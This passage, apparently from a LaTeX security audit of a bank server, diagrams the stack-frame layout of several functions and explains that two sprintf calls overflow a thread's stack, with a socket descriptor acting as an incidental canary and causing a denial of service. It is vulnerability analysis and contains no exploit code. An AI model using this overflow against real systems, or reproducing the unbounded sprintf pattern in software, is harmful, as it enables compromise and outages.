
\begin{tikzpicture}
\draw (1.0,6.25) node[right]{\Verb|bank_aes_handshake arguments|};\draw (1.0,6.0) -- (10.1,6.0) -- (10.1,5.25) -- (1.0,5.25)-- (1.0,6.0);\draw (3.5,5.75) node[right]{\Verb|int client_fd|};\draw (1.0, 5.75) node[right]{\verb|EBP +    8|};\draw (3.5,6.0) -- (3.5, 5.25);\draw (1.0,5.25) -- (10.1,5.25) -- (10.1,4.5) -- (1.0,4.5)-- (1.0,5.25);\draw (3.5,5.0) node[right]{\Verb|PrivateKey &privateKey|};\draw (1.0, 5.0) node[right]{\verb|EBP +    c|};\draw (3.5,5.25) -- (3.5, 4.5);\draw (1.0,4.5) -- (10.1,4.5) -- (10.1,3.75) -- (1.0,3.75)-- (1.0,4.5);\draw (3.5,4.25) node[right]{\Verb|PublicKey &publicKey|};\draw (1.0, 4.25) node[right]{\verb|EBP +   10|};\draw (3.5,4.5) -- (3.5, 3.75);\draw (1.0,3.75) -- (10.1,3.75) -- (10.1,3.0) -- (1.0,3.0)-- (1.0,3.75);\draw (3.5,3.5) node[right]{\Verb|byte* aes_key|};\draw (1.0, 3.5) node[right]{\verb|EBP +   14|};\draw (3.5,3.75) -- (3.5, 3.0);\draw (1.0,3.0) -- (10.1,3.0) -- (10.1,2.25) -- (1.0,2.25)-- (1.0,3.0);\draw (3.5,2.75) node[right]{\Verb|byte* iv|};\draw (1.0, 2.75) node[right]{\verb|EBP +   18|};\draw (3.5,3.0) -- (3.5, 2.25);\draw (1.0,2.25) -- (10.1,2.25) -- (10.1,1.5) -- (1.0,1.5)-- (1.0,2.25);\draw (3.5,2.0) node[right]{\Verb|std::string& init_nonce|};\draw (1.0, 2.0) node[right]{\verb|EBP +   1c|};\draw (3.5,2.25) -- (3.5, 1.5);\draw (11.5,5.25) node[right]{\Verb|thread_handle locals|};\draw (11.5,5.0) -- (20.6,5.0) -- (20.6,4.25) -- (11.5,4.25)-- (11.5,5.0);\draw (14.0,4.75) node[right]{\Verb|std::string nonce|};\draw (11.5, 4.75) node[right]{\verb|EBP -  1cc|};\draw (14.0,5.0) -- (14.0, 4.25);\draw (11.5,4.25) -- (20.6,4.25) -- (20.6,3.5) -- (11.5,3.5)-- (11.5,4.25);\draw (14.0,4.0) node[right]{\Verb|action::Action response|};\draw (11.5, 4.0) node[right]{\verb|EBP -  1c0|};\draw (14.0,4.25) -- (14.0, 3.5);\draw (11.5,3.5) -- (20.6,3.5) -- (20.6,2.75) -- (11.5,2.75)-- (11.5,3.5);\draw (14.0,3.25) node[right]{\Verb|action::Action action|};\draw (11.5, 3.25) node[right]{\verb|EBP -  100|};\draw (14.0,3.5) -- (14.0, 2.75);\draw (11.5,2.75) -- (20.6,2.75) -- (20.6,2.0) -- (11.5,2.0)-- (11.5,2.75);\draw (14.0,2.5) node[right]{\Verb|std::string s|};\draw (11.5, 2.5) node[right]{\verb|EBP -   e0|};\draw (14.0,2.75) -- (14.0, 2.0);\draw (11.5,2.0) -- (20.6,2.0) -- (20.6,1.25) -- (11.5,1.25)-- (11.5,2.0);\draw (14.0,1.75) node[right]{\Verb|byte iv[16]|};\draw (11.5, 1.75) node[right]{\verb|EBP -   48|};\draw (14.0,2.0) -- (14.0, 1.25);\draw (11.5,1.25) -- (20.6,1.25) -- (20.6,0.5) -- (11.5,0.5)-- (11.5,1.25);\draw (14.0,1.0) node[right]{\Verb|int dummy_alloc|};\draw (11.5, 1.0) node[right]{\verb|EBP -   38|};\draw (14.0,1.25) -- (14.0, 0.5);\draw (11.5,0.5) -- (20.6,0.5) -- (20.6,-0.25) -- (11.5,-0.25)-- (11.5,0.5);\draw (14.0,0.25) node[right]{\Verb|byte aes_key[16]|};\draw (11.5, 0.25) node[right]{\verb|EBP -   34|};\draw (14.0,0.5) -- (14.0, -0.25);\draw (11.5,-0.25) -- (20.6,-0.25) -- (20.6,-1.0) -- (11.5,-1.0)-- (11.5,-0.25);\draw (14.0,-0.5) node[right]{\Verb|PublicKey *publicKey|};\draw (11.5, -0.5) node[right]{\verb|EBP -   24|};\draw (14.0,-0.25) -- (14.0, -1.0);\draw (11.5,-1.0) -- (20.6,-1.0) -- (20.6,-1.75) -- (11.5,-1.75)-- (11.5,-1.0);\draw (14.0,-1.25) node[right]{\Verb|PrivateKey *privateKey|};\draw (11.5, -1.25) node[right]{\verb|EBP -   20|};\draw (14.0,-1.0) -- (14.0, -1.75);\draw (11.5,-1.75) -- (20.6,-1.75) -- (20.6,-2.5) -- (11.5,-2.5)-- (11.5,-1.75);\draw (14.0,-2.0) node[right]{\Verb|int client_sock|};\draw (11.5, -2.0) node[right]{\verb|EBP -   1c|};\draw (14.0,-1.75) -- (14.0, -2.5);\draw (11.5,-2.5) -- (20.6,-2.5) -- (20.6,-3.25) -- (11.5,-3.25)-- (11.5,-2.5);\draw (14.0,-2.75) node[right]{\Verb|client_info *client_args|};\draw (11.5, -2.75) node[right]{\verb|EBP -   18|};\draw (14.0,-2.5) -- (14.0, -3.25);\draw (1.0,0.25) node[right]{\Verb|main locals|};\draw (1.0,0.0) -- (10.1,0.0) -- (10.1,-0.75) -- (1.0,-0.75)-- (1.0,0.0);\draw (3.5,-0.25) node[right]{\Verb|int client_sock|};\draw (1.0, -0.25) node[right]{\verb|EBP -  29c|};\draw (3.5,0.0) -- (3.5, -0.75);\draw (1.0,-0.75) -- (10.1,-0.75) -- (10.1,-1.5) -- (1.0,-1.5)-- (1.0,-0.75);\draw (3.5,-1.0) node[right]{\Verb|char port_str[10]|};\draw (1.0, -1.0) node[right]{\verb|EBP -  268|};\draw (3.5,-0.75) -- (3.5, -1.5);\draw (1.0,-1.5) -- (10.1,-1.5) -- (10.1,-2.25) -- (1.0,-2.25)-- (1.0,-1.5);\draw (3.5,-1.75) node[right]{\Verb|client_info client_args|};\draw (1.0, -1.75) node[right]{\verb|EBP -  238|};\draw (3.5,-1.5) -- (3.5, -2.25);\draw (1.0,-2.25) -- (10.1,-2.25) -- (10.1,-3.0) -- (1.0,-3.0)-- (1.0,-2.25);\draw (3.5,-2.5) node[right]{\Verb|    client_args.sockfd|};\draw (1.0, -2.5) node[right]{\verb|EBP -  238|};\draw (3.5,-2.25) -- (3.5, -3.0);\draw (1.0,-3.0) -- (10.1,-3.0) -- (10.1,-3.75) -- (1.0,-3.75)-- (1.0,-3.0);\draw (3.5,-3.25) node[right]{\Verb|    client_args.privateKey|};\draw (1.0, -3.25) node[right]{\verb|EBP -  234|};\draw (3.5,-3.0) -- (3.5, -3.75);\draw (1.0,-3.75) -- (10.1,-3.75) -- (10.1,-4.5) -- (1.0,-4.5)-- (1.0,-3.75);\draw (3.5,-4.0) node[right]{\Verb|    client_args.publicKey|};\draw (1.0, -4.0) node[right]{\verb|EBP -  230|};\draw (3.5,-3.75) -- (3.5, -4.5);\draw (1.0,-4.5) -- (10.1,-4.5) -- (10.1,-5.25) -- (1.0,-5.25)-- (1.0,-4.5);\draw (3.5,-4.75) node[right]{\Verb|pthread_t client_thread|};\draw (1.0, -4.75) node[right]{\verb|EBP -  22c|};\draw (3.5,-4.5) -- (3.5, -5.25);\draw (1.0,-5.25) -- (10.1,-5.25) -- (10.1,-6.0) -- (1.0,-6.0)-- (1.0,-5.25);\draw (3.5,-5.5) node[right]{\Verb|socklen_t addr_size|};\draw (1.0, -5.5) node[right]{\verb|EBP -  224|};\draw (3.5,-5.25) -- (3.5, -6.0);\draw (1.0,-6.0) -- (10.1,-6.0) -- (10.1,-6.75) -- (1.0,-6.75)-- (1.0,-6.0);\draw (3.5,-6.25) node[right]{\Verb|struct sockaddr_storage client|};\draw (1.0, -6.25) node[right]{\verb|EBP -  220|};\draw (3.5,-6.0) -- (3.5, -6.75);\draw (1.0,-6.75) -- (10.1,-6.75) -- (10.1,-7.5) -- (1.0,-7.5)-- (1.0,-6.75);\draw (3.5,-7.0) node[right]{\Verb|int listen_sock|};\draw (1.0, -7.0) node[right]{\verb|EBP -  190|};\draw (3.5,-6.75) -- (3.5, -7.5);\draw (1.0,-7.5) -- (10.1,-7.5) -- (10.1,-8.25) -- (1.0,-8.25)-- (1.0,-7.5);\draw (3.5,-7.75) node[right]{\Verb|struct addrinfo *res|};\draw (1.0, -7.75) node[right]{\verb|EBP -  18c|};\draw (3.5,-7.5) -- (3.5, -8.25);\draw (1.0,-8.25) -- (10.1,-8.25) -- (10.1,-9.0) -- (1.0,-9.0)-- (1.0,-8.25);\draw (3.5,-8.5) node[right]{\Verb|struct addrinfo hints|};\draw (1.0, -8.5) node[right]{\verb|EBP -  188|};\draw (3.5,-8.25) -- (3.5, -9.0);\draw (1.0,-9.0) -- (10.1,-9.0) -- (10.1,-9.75) -- (1.0,-9.75)-- (1.0,-9.0);\draw (3.5,-9.25) node[right]{\Verb|pthread_t console_thread|};\draw (1.0, -9.25) node[right]{\verb|EBP -  164|};\draw (3.5,-9.0) -- (3.5, -9.75);\draw (1.0,-9.75) -- (10.1,-9.75) -- (10.1,-10.5) -- (1.0,-10.5)-- (1.0,-9.75);\draw (3.5,-10.0) node[right]{\Verb|PublicKey publicKey|};\draw (1.0, -10.0) node[right]{\verb|EBP -  160|};\draw (3.5,-9.75) -- (3.5, -10.5);\draw (1.0,-10.5) -- (10.1,-10.5) -- (10.1,-11.25) -- (1.0,-11.25)-- (1.0,-10.5);\draw (3.5,-10.75) node[right]{\Verb|PrivateKey privateKey|};\draw (1.0, -10.75) node[right]{\verb|EBP -  128|};\draw (3.5,-10.5) -- (3.5, -11.25);\draw (1.0,-11.25) -- (10.1,-11.25) -- (10.1,-12.0) -- (1.0,-12.0)-- (1.0,-11.25);\draw (3.5,-11.5) node[right]{\Verb|std::string inputPort|};\draw (1.0, -11.5) node[right]{\verb|EBP -   28|};\draw (3.5,-11.25) -- (3.5, -12.0);\draw[->] (1,4.95) -- (0.5,4.95) -- (0.5,-3.3) -- (1,-3.3);\draw[->] (1,4.2) -- (0,4.2) -- (0,-4.05) -- (1,-4.05);\draw[->] (11.5,-1.3) -- (11.0,-1.3) -- (11.0,-3.3) -- (10.1,-3.3);\draw[->] (11.5,-0.55) -- (10.5,-0.55) -- (10.5,-4.05) -- (10.1,-4.05);\draw[->] (10.1,3.45) -- (11.0,3.45) -- (11.0,0.2) -- (11.5,0.2);\draw[->] (10.1,2.7) -- (10.5,2.7) -- (10.5,1.7) -- (11.5,1.7);
\end{tikzpicture}\\
There's 2 \verb|sprintf|s in \verb|bank_aes_handshake| that smash the stack in \verb|thread_handle| (342 bytes each, the maximum size of an RSA-OAEP-SHA1 payload), but unfortunately, \verb|client_sock| acts as a canary (since if it's not a valid file descriptor, \verb|thread_handle| goes into an infinite loop while trying to read from it. This is the source of the ``100\% CPU DOS'' above).
\end{document}
